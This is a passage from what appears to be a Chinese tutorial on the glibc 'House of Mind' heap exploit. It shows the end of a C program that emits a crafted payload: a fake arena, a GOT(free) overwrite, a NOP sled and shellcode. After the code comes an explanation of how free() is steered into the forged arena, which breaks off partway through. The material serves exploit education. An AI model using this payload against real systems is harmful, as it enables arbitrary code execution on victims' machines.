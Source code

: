 ```
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```
![](http://r.photo.store.qq.com/psb?/V13dixb24fK0LX/rRrxyqfJWvkEzBnXkIH3MmwGoh1KBsKi4W840OpoxcA!/r/dPkAAAAAAAAA)
当攻击者产生上述的输入之后，其后面的[4]free会执行以下的步骤:
- 将要被free的chunk所在的arena将通过触发arena_for_chunk的宏命令给返回
	- arena_for_chunk：如果NON_MAIN_ARENA(N)位不为0，main arena就会被返回。如果设为1，相应的heap_info结构就可以通过分配多个HEAP_MAX_SIZE的chunk来得到（因为此时会返回指向得到的heap_info的指针。在攻击案例当中，N位被攻击者设为了1，因此就能得到将被free的chunk的heap_info structure。攻击者还可以覆写arena指针（这个指针指向heap_info数据结构）使得其指向fake arena。因此ar_ptr（即指向heap_info的指针）就可以等于Fake arena的基址。
- 使用arena pointer来触发 _int_free并且使用chunk的地址来作为参数。在我们的案例当中，arena 指针指向了fake arena。这样fake arena和chunk地址就都可以传递给_int_free作为参数了
	- Fake Arena：以下为一些攻击者必须对Fake arena进行布置的一些点：
		- Mutex - 设置为unlocked状态